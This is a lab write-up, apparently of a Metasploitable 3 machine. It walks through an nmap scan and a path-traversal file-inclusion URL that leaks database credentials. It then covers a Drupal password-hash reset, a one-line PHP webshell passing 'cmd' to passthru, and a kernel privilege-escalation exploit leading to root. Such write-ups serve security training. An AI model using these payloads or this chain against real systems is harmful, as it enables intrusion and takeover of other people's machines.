







## Introduction

Once logged-in in our Kali box, kindly offered by rapid7, we need to study carefully our victim machine. To do so, we can unleash nmap's power

```
ec2-user@kali:~$ nmap -sT -sV -p 1-65535 10.0.101.252

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-06 08:36 UTC
Nmap scan report for 10.0.101.252
Host is up (0.00071s latency).
Not shown: 992 filtered ports
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http        Apache httpd 2.4.7
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
3500/tcp open  http    WEBrick httpd 1.3.1 (Ruby 2.3.5 (2017-09-14))
8181/tcp closed intermapper
Service Info: Hosts: 10.0.101.252, IP-10-0-101-252; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.60 seconds
```

Looks like we have a bunch of services here! Searching for some known vulns on ProFTPD 1.3.5 is inviting, but 
we want to investigate deeper on the port 80. 
What we have here is an Apache http server.Luckily directory listing is enabled, so we can analyze all the application available 
without bruteforcing folders and files. 



Enumerating, enumerating, enumerating and we finally spot our "turning point" vulnerability:
on the WEBrick httpd running on port 3500 ,a Local File Inclusion affects the parameter "os" inside the "readme" page. 
While we have a phpmyadmin instance on port 80, it worth trying to include some other app pages, 
hoping to retrieve some credentials. Fortunately the payroll_app.php makes it possible.

http://10.0.28.14:3500/readme?os=../../../../../var/www/html/payroll_app.php

)

We can now log-in with root:sploitme on phpmyadmin:



In the table "users" from the drupal schema, we have the "metasploitable" user. 
Following the guide at https://www.drupal.org/node/1023428, we can generate a valid drupal hash and replace it with the old ones, 
obtaining access to the front-end.



The PHP Filter module from drupal enable the evaluation ot the PHP code inside pages, so we can enable it and add a page with the following php code

```php
<?php passthru($_GET['cmd']); ?>
```



Let's user the webshell to obtain a reverse shell, it should make our life easier.



We can now start the post-exploitation phase on the victim machine, aiming to obtain root privileges.
The kernel version of the box is vulnerable to the CVE-2015-1328 and a related exploit is available on exploit-db 
(https://www.exploit-db.com/exploits/37292/).
We can download the source, compile it directly on the machine while we have gcc installed and execute it. 

BOOM! We are root



As root we can tweak the ssh config file to allow remote root, moreover we can change the password obtaining a SSH session with root privileges.

Ladies and gentlemen, let the hunt begin!
